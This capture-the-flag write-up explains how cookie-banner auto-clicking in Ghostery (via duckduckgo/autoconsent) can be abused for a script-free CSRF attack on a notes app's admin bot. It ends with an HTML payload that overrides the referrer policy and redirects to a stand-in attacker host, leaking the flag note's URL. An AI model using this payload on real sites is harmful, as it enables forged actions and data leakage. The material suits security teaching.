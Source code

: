 # Writeup for notes by hmmm

Ghostery has a feature called [Never-Consent](https://www.ghostery.com/blog/never-consent-by-ghostery), which is intended to automatically click on GDPR cookie popups. If you dig into the source code, you'll [find](https://github.com/ghostery/ghostery-extension/blob/main/extension-manifest-v2/app/content-scripts/autoconsent.js) that this is implemented using [duckduckgo/autoconsent](https://github.com/duckduckgo/autoconsent/). Essentially, what the autoconsent mechanism does is that it clicks on specific HTML elements if it detects the presence of another HTML element. The rules for this can be found [here](https://github.com/duckduckgo/autoconsent/blob/main/rules/autoconsent/cookie-script.json).

We can abuse this by creating a note with elements with specific ids to cause the admin to automatically click on the submit button for a form, which allows us to perform a CSRF attack without JS. We can use this to create a note with the flag along with HTML content of our choosing.

Since the URL of the created note is random, we need to find a way to leak it. We can do this by redirecting to an attacker-controlled website with a meta refresh, so the URL is leaked through the `Referer` header. Unfortunately, if you try this, the `Referer` header only contains the domain of the target website. Why is this the case? The [`Referrer-Policy`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy) now defaults to `strict-origin-when-cross-origin`, which means that only same-origin requests will be sent the full path in the `Referer` header.

However, we can override the `Referrer-Policy` with a [meta tag of our own](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/meta/name#standard_metadata_names_defined_in_the_html_specification). By setting the referrer policy to `unsafe-url`, the entire path will be sent even for cross-origin requests, allowing us to leak the URL of the note with the flag.

Our final payload is:

```html
<form action="/" method="POST" id="cookiescript_injected">
	<input
		name="note"
		value='<meta name="referrer" content="unsafe-url"><meta http-equiv="refresh" content="0; url=https://attacker-site.example">'
	/>
	<input type="submit" id="cookiescript_reject" />
</form>
```
